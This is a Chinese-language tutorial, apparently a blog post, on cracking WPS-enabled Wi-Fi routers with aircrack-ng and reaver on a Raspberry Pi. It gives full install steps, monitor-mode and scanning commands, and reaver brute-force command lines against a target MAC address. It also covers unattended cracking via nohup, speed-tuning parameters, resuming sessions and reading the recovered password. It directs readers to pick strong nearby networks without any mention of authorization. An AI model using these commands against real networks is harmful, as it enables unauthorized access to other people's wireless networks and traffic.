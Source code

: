 #硬件环境
树莓派B+一个（我用的是debian环境）
PC一台（或其它设备直接操作PI就行）
无线网卡（能用就行，不过强大的无线网卡会事半功倍，我用的3070）
>Find注：
>>无线网卡不是哪个都行，需要支持监听模式才可以，支持列表可以查看这里： https://wikidevi.com/wiki/Wireless_adapters/Chipset_table
#安装依赖包
```
sudo apt-get install -y libpcap-dev libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion ethtool
sudo apt-get install -y libnl-3-200 libnl-3-dev libnl-genl-3-dev libnl-genl-3-200
```
#安装aircarck-ng

```
svn co http://svn.aircrack-ng.org/trunk/ aircrack-ng
cd aircrack-ng/
make
sudo make install
还提示了Run 'airodump-ng-oui-update' as root (or with sudo) to install or update Airodump-ng OUI file (Internet connection required).
sudo airodump-ng-oui-update
```
#安装reaver
```
wget http://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz
tar zxvf reaver-1.4.tar.gz
cd reaver-1.4/src
./configure
make
sudo make install
```
以上两个资源包都可以在这里找到：
[百度网盘分享][1]

如果安装成功后，会有`airmon-ng`,`airodump-ng`,`reaver`等命令可用。

#破解教程
`
sudo airmon-ng start wlan0
sudo airodump-ng mon0
`
![][2]

根据上面的airodump搜索到的无线信号，然后可以挑信号强的进行破解（注意，要选择开了WPS功能的）
注意看这张列表，列表中显示了你周边无线的相关信息。注意看 MB 这一列，显示为" 54 "、"54e. "等等，这表示了无线当前的速率模式以及WPS开启状况，我自己的路由器是 "steve"，注意看，”54e“和” 54e. “是不同的，多了一个 点，这个点表示开启了 wps模式。所以我们下面就进行wps的探测，在这里我们要记住SSID对应的MAC地址，此后我们会针对MAC地址进行攻击和探测。
![][3]
```
sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11
```
-vv 是查看详细信息的，等你熟练了之后，你就可以使用 -v ，这样就简单了。通常，遇到问题才会使用 -vv 。
如果想挂机破解，记得加上nohup命令后，可以断开ssh。然后剩下就是等待。
```
nohup sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11 -o fbi &
```
`-o`参数是输出到文件
如果破解成功后，打开输出的日志，就可以看到reaver出来的密码。
![][4]
#命令说明：
##reaver
###使用方法：
airmon-ng start wlan0 //启动mon0监控
reaver -i mon0 -b MAC -a -S -vv //普通用法

###如果，90.9%进程后死机或停机，请记下PIN前四位数，用指令：
reaver -i mon0 -b MAC -a -vv -p XXXX(PIN前四位数)

###其他命令
airodump-ng mon0 用来扫描周围无线信号
wash -i mon0 -C 这个是用来检测周围无线支持PIN的路由

###如果一直pin不动，尝试加-N参数
reaver -i mon0 -b xx:xx:xx:xx:xx:xx -d 0 -vv -a -S -N
也可以加延时 -t 3 -b 3

###常用参数释疑
-i 监听后接口名称 网卡的监视接口，通常是mon0
-b 目标mac地址 AP的MAC地址
-a 自动检测目标AP最佳配置
-S 使用最小的DH key，可以提高PJ速度
-vv 显示更多的非严重警告
-d 即delay每穷举一次的闲置时间 预设为1秒
reaver -i mon0 -b MAC -d 0
用上述指令可以大幅加快PJ速度 但是有些AP可能受不了
-c （后跟频道数） 指定频道,可以方便找到信号
-p PIN码四位或八位 //已知pin码前4位可以带此参数，指定从这个数字开始pin。可以用8位直接找到密码。
-N 不发送NACK信息（如果一直pin不动，可以尝试这个参数）
-n 对目标AP总是发送NACK，默认自动
-t 即timeout每次穷举等待反馈的最长时间，如果信号不错，可以这样###设置
reaver -i mon0 -b MAC -d 0 -t .5
-m, --mac=<mac> 指定本机MAC地址，在AP有MAC过滤的时候需要使用

###小结-PJ时应因状况调整参数:
信号非常好:
reaver -i mon0 -b MAC -a -S -vv -d 0 -c 1
信号普通:
reaver -i mon0 -b MAC -a -S -vv -d .5 -t .5 -c 1
信号一般:
reaver -i mon0 -b MAC -a -S -vv -c 1

当出现有百分数时你就可以用crtl+c来暂停，它会将reaver的进度表文件保存在
1.3版：
/etc/reaver/MAC地址.wpc
1.4版：
/usr/local/etc/reaver/MAC地址.wpc
用资源管理器，手工将以MAC地址命名的、后辍为wpc的文件拷贝到U盘或硬盘中，
下次重启动后，再手工复制到/etc/reaver/ 目录下即可。






不是所有的路由都支持pin学习。AP关闭了WPS、或者没有QSS滴，会出现
WARNING: Failed to associate with XX:XX:XX:XX:XX:XX (ESSID: XXXX)
学习过程中也可随时随地按Ctrl+C终止PJ，重复同一个PIN码 或 timeou t可终止，reaver会自动保存进度。
继续上次的PJ，则再次在终端中发送:
reaver -i mon0 -b MAC -vv
这条指令下达后，会让你选y或n，选y后就继续了
当reaver确定前4位PIN密码后，其工作完成任务进度数值将直接跳跃至90.9%以上，也就是说只剩余一千个密码组合了（总共一万一千个密码）。





参数详细说明:
-m, --mac=<mac> MAC of the host system
指定本机MAC地址，在AP有MAC过滤的时候需要使用
-e, --essid=<ssid> ESSID of the target AP
路由器的ESSID，一般不用指定
-c, --channel=<channel> Set the 802.11 channel for the interface (implies -f)
信号的频道，如果不指定会自动扫描
-o, --out-file=<file> Send output to a log file [stdout]
标准输出到文件
-s, --session=<file> Restore a previous session file
恢复进程文件
-C, --exec=<command> Execute the supplied command upon successful pin recovery
pin成功后执行命令
-D, --daemonize Daemonize reaver
设置reaver成Daemon
-a, --auto Auto detect the best advanced options for the target AP
对目标AP自动检测高级参数
-f, --fixed Disable channel hopping
禁止频道跳转
-5, --5ghz Use 5GHz 802.11 channels
使用5G频道
-v, --verbose Display non-critical warnings (-vv for more)
显示不重要警告信息 -vv 可以显示更多
-q, --quiet Only display critical messages
只显示关键信息
-h, --help Show help
显示帮助

-vv 显示更多的非严重警告

高级参数:
-p, --pin=<wps pin> Use the specified 4 or 8 digit WPS pin
直接读取psk（本人测试未成功，建议用网卡自带软件获取）
-d, --delay=<seconds> Set the delay between pin attempts [1]
pin间延时，默认1秒，推荐设0
-l, --lock-delay=<seconds> Set the time to wait if the AP locks WPS pin attempts [60]
AP锁定WPS后等待时间
-g, --max-attempts=<num> Quit after num pin attempts
最大pin次数
-x, --fail-wait=<seconds> Set the time to sleep after 10 unexpected failures [0]
10次意外失败后等待时间，默认0秒
-r, --recurring-delay=<x:y> Sleep for y seconds every x pin attempts
每x次pin后等待y秒
-t, --timeout=<seconds> Set the receive timeout period [5]
收包超时，默认5秒
-T, --m57-timeout=<seconds> Set the M5/M7 timeout period [0.20]
M5/M7超时，默认0.2秒
-A, --no-associate Do not associate with the AP (association must be done by another application)
不连入AP（连入过程必须有其他程序完成）
-N, --no-nacks Do not send NACK messages when out of order packets are received
不发送NACK信息（如果一直pin不动，可以尝试这个参数）
-S, --dh-small Use small DH keys to improve crack speed
使用小DH关键值提高速度（推荐使用）
-L, --ignore-locks Ignore locked state reported by the target AP
忽略目标AP报告的锁定状态
-E, --eap-terminate Terminate each WPS session with an EAP FAIL packet
每当收到EAP失败包就终止WPS进程
-n, --nack Target AP always sends a NACK [Auto]
对目标AP总是发送NACK，默认自动
-w, --win7 Mimic a Windows 7 registrar [False]
模拟win7注册，默认关闭


#Reference
http://lok.me/a/1972.html
http://bao3.blogspot.com/2013/05/raspberry-pi.html
http://tieba.baidu.com/p/2682878857
http://www.nyaboron.moe/posts/606.html

[1]: http://pan.baidu.com/s/1eQ6HG6Q "百度网盘树莓派"
[2]: http://www.findspace.name/wp-content/uploads/2015/11/raspberry1.png "sudo airodump-ng mon0"
[3]: http://www.findspace.name/wp-content/uploads/2015/11/raspberry2.png ""
[4]: http://www.findspace.name/wp-content/uploads/2015/11/raspberry3.png ""
